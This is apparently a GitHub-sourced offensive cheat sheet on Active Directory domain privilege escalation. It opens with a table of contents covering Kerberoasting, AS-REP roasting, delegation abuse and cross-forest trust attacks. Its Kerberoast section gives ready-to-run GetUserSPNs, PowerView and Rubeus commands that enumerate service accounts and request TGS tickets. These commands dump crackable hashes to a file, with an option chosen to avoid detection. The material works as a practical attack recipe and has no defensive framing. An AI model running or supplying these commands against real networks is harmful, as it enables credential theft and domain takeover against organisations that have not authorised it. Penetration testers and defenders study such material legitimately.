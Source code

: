 # Domain Privilege escalation
* [Kerberoast](#Kerberoast) 
  * [Set SPN](#Set-SPN)
* [LAPS](#LAPS)
* [AS-REP Roasting](#AS-REP-Roasting) 
  * [Set pre-auth not required](#Set-pre-auth-not-required)  
* [Access Control List(ACL)](#Access-Control-List)
* [MS Exchange](#MS-Exchange) 
* [Delegation](#Delegation) 
  * [Unconstrained Delegation](#Unconstrained-delegation) 
    * [Printer Bug](#Printer-bug) 
  * [Constrained Delegation](#Constrained-delegation) 
* [DNS Admins](#DNS-Admins)
* [Trust abuse SQL](#Trust-abuse-SQL)
* [Cross Domain attacks](#Cross-Domain-attacks)
  * [MS Exchange](#MS-Exchange2)
  * [Azure AD](#Azure-AD)
  * [Trust abuse SQL](#Trust-abuse-SQL)
  * [Child to Forest Root](#Child-to-Forest-Root)
    * [Trust key](#Trust-key)
    * [Krbtgt hash](#Krbtgt-hash)
* [Cross Forest attacks](#Crossforest-attacks)
  * [Kerberoast](#Kerberoast2)
  * [Printer Bug](#Printer-bug2) 
  * [Trust key](#Trust-key) 
  * [Trust abuse SQL](#Trust-abuse-SQL)
  * [Foreign Security Principals](#Foreign-Security-Principals)
  * [ACLs](#ACLs)
  * [Pam Trust](#Pam-Trust)
 

## Kerberoast
- https://github.com/GhostPack/Rubeus
#### Find user accounts used as service accounts
```
. ./GetUserSPNs.ps1
```

```
Get-DomainUser -SPN
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
```

```
Rubeus.exe kerberoast /stats
```

#### Reguest a TGS
```
Rubeus.exe kerberoast /user:<SERVICEACCOUNT> /simple /domain <DOMAIN> /outfile:kerberoast_hashes.txt
Rubeus.exe kerberoast /rc4opsec /outfile:kerberoast_hashes.txt
```

